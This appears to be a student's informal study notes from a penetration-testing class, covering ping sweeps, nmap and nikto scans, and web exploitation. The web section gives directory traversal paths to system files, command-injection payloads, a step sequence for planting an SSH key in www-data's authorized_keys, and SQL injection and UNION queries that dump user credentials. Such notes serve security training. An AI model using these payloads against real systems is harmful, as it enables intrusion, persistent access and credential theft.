 ### Host Discovery
- Narrow the scope 
  - ping sweep (see whats out there maybe cuz huge subnet)
    - `for i in {1..254} ;do (ping -c x.x.x.x | grep "bytes from" &) ;done`
  - now can enumerate the hosts, nmap
    - nmap the well-known ports, notice some important services
      - say it's http, you can use those scripts, some examples below:
      - `nmap -v -sT -Pn -T4 --script http-robots.txt.nse X.X.X.X`
      - `nmap -v -sT -Pn -T4 --script http-enum.nse X.X.X.X`
        - may need `=` connecting "--script" with "http-blahblah"
      - `nikto -h X.X.X.X`
- use web exploitation tools (view source, sql, inspect element, etc) ***HE SAID SOMETHING ABOUT CHANGING OPACITY, CODE COULD BE BLACK AND/OR WHITE IN PAGE SRC OR CONSOLE THAT WOULD'T NORMALLY BE VISIBLE***

### Web Exploitation
- Directory Traversal - information
  - ../../../../../../../../etc/passwd
  - ../../../../../../../../etc/group
  - ../../../../../../../../etc/hosts
  - ../../../../../../../../etc/networks
  - ../../../../../../../../etc/resolv.conf
- Cmd Injection - Information/Access
  - `; id`
  - `; whoami`
  - `; cat`
  - `; <CMD>`
- want to upload your SSH key to user that you are home directory
  - find the default home directoru, for the user, based off of /etc/passwd
    - `www-data:x:33:33:www-data:/var/www:/bin/bash` 
  - generate your own ssh keys 
    - `@linops: ssh-keygen -t rsa -b 4096` 
      - set no password
      - saves public key in /home/student/.ssh/id_rsa.pub
        - **dont use privat key dumbass**
      - `cat /home/student/.ssh/id_rsa.pub
      - copy the text and save it to put it on the vulnerable web stuff
  - utilizing command injection,
  - `; ls -la /var/www` to see what's there
    - if /.ssh directory is not there, create it
    - `; mkdir var/www//.ssh`
  - `; touch /var/www/.ssh/authorized_keys`
  - `; ls -la /var/www/.ssh` - **ALWAYS CHECK TO MAKE SURE THE THINGS YOU DID ACTUALLY HAPPENED**
  - `; echo "(id_rsa.pub conents)" >> /var/www/.ssh/authorized_keys`
  - `ssh -i .ssh/id_rsa www-data@X.X.X.X`
    - www-data being the user that you are when you're on the webpage
- Good walkthrough for all this on **Web Exploitation Day 1** 
- POST method = input field box 
  - `test' or 1='1`
  - `test' or 1='1;`
  - `test' or 1='1; #`
  - `test' or 1='1; --`
   - Can also try `OR` instead of `or` cuz shit is finnickyfuct
  - throw it in both fields
  - see if it breaks?
- GET method = url thing
  - information may be different thatn POST method
  - can keep interacting with the page to see how the url changes
  - blahblahblah.php?Selection=**1**&submitblahblah
    - see that 1 changes to 2 or 3 and stuff 
      - .php?Selection=1 or 1=1
        - %20 represents a space in a URL field
      - .php?Selection=2 or 1=1
        - and 3 and 4 and so on
          - different syntaxes `=2 or 1= 1;` `=2 or 1=1; #` and stuff same shit as POST method
  - GOLDEN STATEMENT
    - on vulnerable page, 
      - Selection=2 UNION select table_schema,table_name,column_name from information.schema.columns 
      - columns = Table, This table exists within the information_schema database
      - table_schema = Column, List out database names 
      - Column_name = Column, List out the column names
        - see that there's a column name thing called session, with column names (middle column) from user table (right)
        - UNION select 1,2,3,4,5,6 #
        - UNION select 1,2,3 #
          - let's say 2 showed 4 showed and 6 showed
          - UNION select 1,table_schema,3,table_name,5,column_name from information_schema.columns
            - put the things we wanted in their respective fields and filled in the rest with placeholder numbers
        - UNION select id,name,pass from session.user
















